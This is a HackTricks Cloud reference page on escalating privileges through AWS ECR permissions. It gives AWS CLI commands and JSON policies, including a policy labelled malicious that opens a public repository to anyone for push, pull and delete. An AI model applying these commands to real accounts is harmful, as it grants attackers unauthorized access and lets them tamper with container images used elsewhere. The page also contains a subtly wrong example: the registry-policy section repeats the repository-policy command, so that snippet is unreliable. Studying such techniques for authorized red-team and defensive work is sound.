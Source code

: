 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Potential Impact:** Indirect privesc by intercepting sensitive information in the traffic.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

An attacker with the all those permissions **can login to ECR and upload images**. This can be useful to escalate privileges to other environments where those images are being used.

To learn how to upload a new image/update one, check:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Like the previous section, but for public repositories.

### `ecr:SetRepositoryPolicy`

An attacker with this permission could **change** the **repository** **policy** to grant himself (or even everyone) **read/write access**.\
For example, in this example read access is given to everyone.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Contents of `my-policy.json`:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

### `ecr-public:SetRepositoryPolicy`

Like the previoous section, but for public repositories.\
An attacker can **modify the repository policy** of an ECR Public repository to grant unauthorized public access or to escalate their privileges.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**Potential Impact**: Unauthorized public access to the ECR Public repository, allowing any user to push, pull, or delete images.

### `ecr:PutRegistryPolicy`

An attacker with this permission could **change** the **registry policy** to grant himself, his account (or even everyone) **read/write access**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
